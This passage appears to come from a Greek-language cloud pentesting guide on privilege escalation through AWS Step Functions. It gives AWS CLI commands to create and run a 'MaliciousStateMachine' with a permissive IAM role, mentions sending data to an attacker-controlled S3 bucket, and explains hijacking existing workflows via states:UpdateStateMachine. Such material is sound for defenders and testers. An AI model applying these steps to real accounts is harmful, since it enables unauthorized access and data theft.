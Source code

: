 {% code overflow="wrap" %}
```bash
aws stepfunctions create-state-machine --name MaliciousStateMachine --definition file://stateMachineDefinition.json --role-arn arn:aws:iam::123456789012:role/PermissiveRole
{
"stateMachineArn": "arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine",
"creationDate": "2024-07-09T20:29:35.381000+02:00"
}
```
{% endcode %}

* **Εντολή** που εκτελέστηκε για να **ξεκινήσει μια εκτέλεση** της προηγουμένως δημιουργημένης μηχανής καταστάσεων:

{% code overflow="wrap" %}
```json
aws stepfunctions start-execution --state-machine-arn arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine
{
"executionArn": "arn:aws:states:us-east-1:123456789012:execution:MaliciousStateMachine:1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f",
"startDate": "2024-07-09T20:33:35.466000+02:00"
}
```
{% endcode %}

{% hint style="warning" %}
Ο ελεγχόμενος από τον επιτιθέμενο S3 κάδος θα πρέπει να έχει δικαιώματα να αποδέχεται μια ενέργεια s3:PutObject από τον λογαριασμό του θύματος.
{% endhint %}

**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη εκτέλεση και χειρισμός ροών εργασίας και πρόσβαση σε ευαίσθητους πόρους, που μπορεί να οδηγήσει σε σημαντικές παραβιάσεις ασφάλειας.

### `states:UpdateStateMachine` & (όχι πάντα απαραίτητο) `iam:PassRole`

Ένας επιτιθέμενος με την άδεια **`states:UpdateStateMachine`** θα μπορούσε να τροποποιήσει τον ορισμό μιας μηχανής καταστάσεων, προσθέτοντας επιπλέον κρυφές καταστάσεις που θα μπορούσαν να καταλήξουν σε κλιμάκωση προνομίων. Με αυτόν τον τρόπο, όταν ένας νόμιμος χρήστης ξεκινά μια εκτέλεση της μηχανής καταστάσεων, αυτή η νέα κακόβουλη κρυφή κατάσταση θα εκτελείται και η κλιμάκωση προνομίων θα είναι επιτυχής.

Ανάλογα με το πόσο επιτρεπτικός είναι ο IAM Ρόλος που σχετίζεται με τη μηχανή καταστάσεων, ένας επιτιθέμενος θα αντιμετωπίσει 2 καταστάσεις:

1. **Επιτρεπτικός IAM Ρόλος**: Εάν ο IAM Ρόλος που σχετίζεται με τη μηχανή καταστάσεων είναι ήδη επιτρεπτικός (έχει για παράδειγμα την πολιτική **`arn:aws:iam::aws:policy/AdministratorAccess`** συνημμένη), τότε η άδεια **`iam:PassRole`** δεν θα απαιτείται προκειμένου να κλιμακωθούν τα προνόμια, καθώς δεν θα είναι απαραίτητο να ενημερωθεί και ο IAM Ρόλος, με τον ορισμό της μηχανής καταστάσεων να είναι αρκετός.
2. **Μη επιτρεπτικός IAM Ρόλος**: Σε αντίθεση με την προηγούμενη περίπτωση, εδώ ένας επιτιθέμενος θα απαιτήσει επίσης την άδεια **`iam:PassRole`** καθώς θα είναι απαραίτητο να συσχετιστεί ένας επιτρεπτικός IAM Ρόλος με τη μηχανή καταστάσεων εκτός από την τροποποίηση του ορισμού της μηχανής καταστάσεων.
